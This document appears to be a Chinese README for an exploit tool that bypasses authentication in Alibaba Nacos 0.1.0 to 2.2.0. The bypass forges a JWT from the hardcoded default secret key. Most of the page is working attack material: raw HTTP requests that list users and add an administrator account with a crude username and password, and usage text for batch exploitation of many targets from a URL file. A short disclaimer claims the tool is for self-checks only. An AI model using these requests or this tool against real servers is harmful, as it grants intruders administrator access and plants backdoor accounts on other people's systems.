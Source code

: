 首发于t00ls.com，仅限安全自检，非法使用所造成的一切后果由使用者承担

### 漏洞原理

好多大佬都分享过了，这里就简单说下：

Nacos漏洞版本`/conf` 默认配置文件 `application.properties ` 中，`nacos.core.auth.default.token.secret.key` 使用了硬编码，使用该key可构造jwt进行token认证。

认证成功后获得`accessToken` ，使用`accessToken` 可对Naocs进行任意操作（这不废话么，已经登录了）

### 影响范围

0.1.0 <= Nacos <= 2.2.0

### 工具思路
既然登录后使用`accessToken`可以进行任意操作，那直接查看管理员或者干脆新增用户登录不就得了么，这里加上认证成功后的token 直接使用CVE-2021-29441的payload读取用户列表和新增系统用户，如下：

查看用户列表
```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
Host: xxx
accessToken: xxxxxx
```
新增管理员
```http
POST /nacos/v1/auth/users HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded
accessToken: xxx
Content-Length: 27

username=fuck&password=fuck
```

### Tools Usage

```shell
_____                 ____      ___         _ _   _____     _
|   | |___ ___ ___ ___|    \ ___|  _|___ _ _| | |_|_   _|___| |_ ___ ___
| | | | .'|  _| . |_ -|  |  | -_|  _| .'| | | |  _| | | | . | '_| -_|   |
|_|___|__,|___|___|___|____/|___|_| |__,|___|_|_|   |_| |___|_,_|___|_|_|

Alibaba Nacos Default Token身份认证绕过 author: Dghpi9
vul version: 0.1.0 <= Nacos <= 2.2.0
Usage:
 -u http://192.168.0.1:8848 -g  读取用户列表
 -u http://192.168.0.1:8848 -a  新增系统用户
 -f url.txt -g  批量读取用户列表
 -f url.txt -a  批量新增用户
Options:
  -u string
        指定单个目标
  -f string
        传入文件列表
  -g    读取用户列表
  -a    新增系统用户
```

